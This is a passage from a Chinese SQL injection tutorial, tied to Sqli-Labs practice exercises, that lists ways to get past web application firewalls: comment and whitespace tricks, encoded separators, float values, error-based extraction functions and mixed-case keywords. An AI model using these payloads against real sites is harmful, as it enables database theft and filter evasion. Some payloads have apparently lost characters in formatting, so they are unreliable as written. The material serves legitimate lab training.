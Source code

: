 **练习地址：**[https://www.yuque.com/xmtxsec/blog/guysgs](https://www.yuque.com/xmtxsec/blog/guysgs)
Sqli-Labs-29 <br />Sqli-Labs-30<br />Sqli-Labs-31


### 3.2.4、规则层面的绕过

-  sql注释符绕过 
   1. union /_ _ /select 我们将union select之间的空格使用注释符进行替换（适用于对union select之间的空格进行检测的情况）
   2. union/crow%0%32#/select 我们在注释符中间填充内容<br />union/aaaaaaaaaabbbbbbbbbcccccccccccdddddddddddeeeeeeeeeeee%%%%%%%%%/select 构造较大数据
   3. /!union select/内联注释 我们使用内联注释，mysql特有
-  空白符绕过 
   1. mysql空白符：%09；%0A; %0B; %0D; %20; %0C; %A0; /XXX/
   2. 正则空白符： %09；%0A; %0B; %0D; %20;<br />%25其实就是百分号 %25A0 就是空白符
-  注释符绕过<br />//,-- , /**/, #, --+, -- -, ;,%00,

<br />**练习地址：**[https://www.yuque.com/xmtxsec/blog/guysgs](https://www.yuque.com/xmtxsec/blog/guysgs)
Sqli-Labs-26<br />Sqli-Labs-27<br />Sqli-Labs-27a<br />Sqli-Labs-28<br />Sqli-Labs-28a 


### 3.2.5、函数分割符号

- 将一个函数进行分割concat()
%25其实就是百分号 %25A0 就是空白符<br />concat%2520(<br />concat/**/(<br />concat%250c(<br />concat%25a0(


### 3.2.6、浮点数法

- waf对于id=1可以进行检测，但是对于id=1E0、id=1.0、id=\N可能就无法检测


### 3.2.7、利用error-based进行sql注入

- extractvalue(1, concat(0x5c,md5(3)));
- updatexml(1, concat(0x5d,md5(3)),1);
- GeometryCollection((selectfrom(selectfrom(select@@version)f)x))
- polygon((select*from(select name_const(version(),1))x))
- linestring()
- multipoint()
- multilinestring()
- multipolygon()


### 3.2.8、mysql特殊语法

- select {x schema_name} from {x information_schema.schemata};
- select {x 1};


### 3.2.9、大小写绕过

- 如果对关键字and or union等进行了过滤，可以考虑使用大小写混合的方法`Or aNd UniOn`


### 3.2.10、关键字重复
